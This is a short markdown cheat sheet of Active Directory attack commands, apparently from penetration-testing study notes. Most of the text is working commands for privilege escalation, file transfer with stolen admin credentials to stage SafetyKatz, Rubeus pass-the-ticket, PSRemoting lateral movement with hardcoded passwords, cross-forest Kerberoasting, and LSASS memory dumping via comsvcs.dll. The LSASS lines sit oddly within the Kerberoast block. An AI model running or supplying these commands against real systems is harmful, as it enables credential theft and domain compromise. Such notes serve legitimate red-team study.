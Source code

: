 ## Misc

- may be able to add yourself to a group with `Add-ADGroupMember -Identity "MachineAdmins" -Members "0xd4y"`

**File transferring with creds**

```powershell
# Create shared folder between target machine (notes-0xd4y) and local machine
net use x: \\notes-0xd4y\C$\Users\Public /user:Administrator Pl34s3Subscr1be

# Copy files to target machine
echo F | xcopy C:\PATH\TO\Loader.exe x:\Loader.exe
echo F | xcopy C:\PATH\TO\SafetyKatz.exe x:\SafetyKatz.exe

# Delete shared folder
net use x: /d
```

- check if you have local admin access on another machine with `Find-PSRemotingLocalAdminAccess`
- can spawn new instance with compromised creds using Rubeus: `./Rubeus.exe asktgt /domain:notes.0xd4y.local /user:0xd4y /aes256:<AES256_KEY> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`

****************Lateral Movement Using PSRemoting****************

```powershell
$passwd = ConvertTo-SecureString 'Follow0xd4y' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("notes\0xd4y", $passwd)
$session = New-PSSession -ComputerName some_machine -Credential $creds
```

# Cross-Forest Attacks and Privescs

## Kerberoast

It is possible to perform kerberoast attacks across forest trusts

```powershell
# PowerView
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}

# AD Module
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincpalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}

# Get TGS of target user using only PS
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList some_svc/eu-file.eu.local@eu.local
tasklist.exe /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\system32\comsvcs.dll, MiniDump <LSASS_PID> C:\PATH\TO\SAVE\lsass.dmp full
## Can also just do rundll32.exe C:\windows\system32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\PATH\TO\SAVE\lsass.dmp full
```
